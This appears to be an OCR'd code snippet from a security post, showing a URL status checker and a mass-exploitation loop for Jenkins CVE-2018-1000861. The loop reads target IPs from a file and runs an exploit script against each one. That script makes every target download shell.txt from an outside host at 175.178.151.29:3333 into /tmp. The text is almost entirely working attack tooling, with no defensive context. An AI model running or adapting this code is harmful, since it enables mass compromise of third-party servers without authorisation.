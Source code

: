 ```plain
    try:
        p_code = requests.get(p_url).status_code
        w_code=requests.get(w_url).status_code
        l_code = requests.get(l_url).status_code
        if l_code == 200:
            print(l_url+'->|ok')
        elif w_code == 200:
            print(w_url+'->|ok')
        elif p_code == 200:
            print(p_url+'->|ok')
    except Exception as e:
        #print(e)
        time.sleep(0.01)

2、配合Jenkins-CVE-2018-1000861
语法：app=“jenkins”

import os

for ip in open('ips.txt'):
    ip=ip.strip()
    cmdline='python2 exp.py http://%s/ "curl -o /tmp/1.sh http://175.178.151.29:3333/shell.txt"'%ip
    print(cmdline)
    os.system(cmdline)
```

